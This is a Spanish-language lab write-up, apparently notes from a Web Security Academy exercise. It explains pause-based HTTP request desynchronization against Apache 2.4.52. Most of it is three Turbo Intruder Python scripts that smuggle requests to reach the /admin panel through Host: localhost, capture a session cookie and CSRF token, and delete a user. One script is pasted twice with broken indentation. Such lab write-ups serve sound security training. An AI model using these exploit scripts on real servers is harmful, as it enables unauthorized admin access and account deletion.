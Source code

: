 
La desincronización basada en pausa es un tipo de ataque que se aprovecha del comportamiento de ciertos servidores cuando reciben solicitudes HTTP incompletas. Este ataque se realiza enviando los encabezados de una solicitud, prometiendo un cuerpo que nunca se envía, y luego esperando un tiempo determinado antes de enviar el resto de la solicitud.
Com esta tarea puede resultar incómoda usaremos un script en python en turbo intruder que automatice ese proceso. 
Primero interceptamos, podemos ver que tiene Apache/2.4.52 que es vulnerable a esto. click derecho > sent to turbo intruder
![[Pasted image 20240819142400.png]]
```
 When you paste the code it will have an extra odds spaces which cause error
```

Si esta es la primera vez que usas Turbo Intruder, es una extensión que podes conseguir en la pestaña Extensions > BApp de Burpquiste. El "s%" representa la variable que el turbo intruder va a ir cambiando
Hay una variable "smuggled_request" en donde está el host de la página propia, como el host iría el ID de nuestro laboratorio propio.
Tenemos un attack requets que es una petición post a una ruta.
El pauseMarker tiene definido también una solicitud GET con dos CRLF.
Cuando ejecutemos esto, obtendremos un 404 que confirma la race condition
```py
 def queueRequests(target, _):
    engine = RequestEngine(
        endpoint="https://LAB_ID.web-security-academy.net:443",
        concurrentConnections=1,
        requestsPerConnection=100,
        pipeline=False
    )

    # attack request
    attack_request = """POST /resources HTTP/1.1
Host: LAB_ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: %s

%s"""

    # smuggled request GET
    smuggled_request = """GET /uripathdoesnotexist/ HTTP/1.1
Host: LAB_ID.web-security-academy.net

"""


    # normal request
    normal_request = """GET / HTTP/1.1
Host: LAB_ID.web-security-academy.net

"""

    engine.queue(attack_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)
    engine.queue(normal_request)

def handleResponse(req, _):
    table.add(req)


 """
    
     engine.queue(attack_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)
    
     engine.queue(normal_request)
    

 def handleResponse(req, _):
    
     table.add(req)
```

Si ves un eror como:
User ýthon error, check extender for full detais: SyntaxErrpr:("no viable alternative character '\xa0'",)
Entonces la identación esta causando error
Ahora hacemo lo mismo para la ruta de admin
```
 def queueRequests(target, _):

engine = RequestEngine(

endpoint="https://LAB-ID.web-security-academy.net:443",

concurrentConnections=1,

requestsPerConnection=100,

pipeline=False

)

  

# attack request

attack_request = """POST /resources HTTP/1.1

Host: LAB-ID.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Connection: keep-alive

Content-Length: %s

  

%s"""

  

# smuggled request GET

smuggled_request = """GET /admin/ HTTP/1.1

Host: localhost

  

"""

  

normal_request = """GET / HTTP/1.1

Host: LAB-ID.web-security-academy.net

  

"""

  

engine.queue(attack_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)

engine.queue(normal_request)

  

def handleResponse(req, _):

table.add(req)
```
Es importante el slash al final porque el servidor sino te redirije automáticamente. Esto nos debería dar un 200 OK donde está la cookie sesion que copiaríamos. Y también el input que tiene un value con el csrf token

![[Pasted image 20240819154910.png]]

Utilizan el session ID y las cookies podemos realizar las acciones del admin
```
def queueRequests(target, _):

engine = RequestEngine(

endpoint="https://0a0d00f704ff88b880f6e4b1000d0045.web-security-academy.net:443",

concurrentConnections=1,

requestsPerConnection=100,

pipeline=False

)

  

# attack request

attack_request = """POST /resources HTTP/1.1

Host: 0a0d00f704ff88b880f6e4b1000d0045.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Connection: keep-alive

Content-Length: %s

  

%s"""

  

# smuggled request POST

smuggled_request = """POST /admin/delete/ HTTP/1.1

Content-Length: 55

Cookie: session=dZIrxoctZoO77up1lOYtJGvvFF6oCHKY

Host: localhost

csrf=89hYeJ9bhHQyT4mNmGYL65HRkxKNLwGs&username=carlos

"""

  

# normal request

normal_request = """GET / HTTP/1.1

Host: 0a0d00f704ff88b880f6e4b1000d0045.web-security-academy.net

  

"""

  

engine.queue(attack_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\nPOST'], pauseTime=61000)

engine.queue(normal_request)

  

def handleResponse(req, _):

table.add(req)
```
]]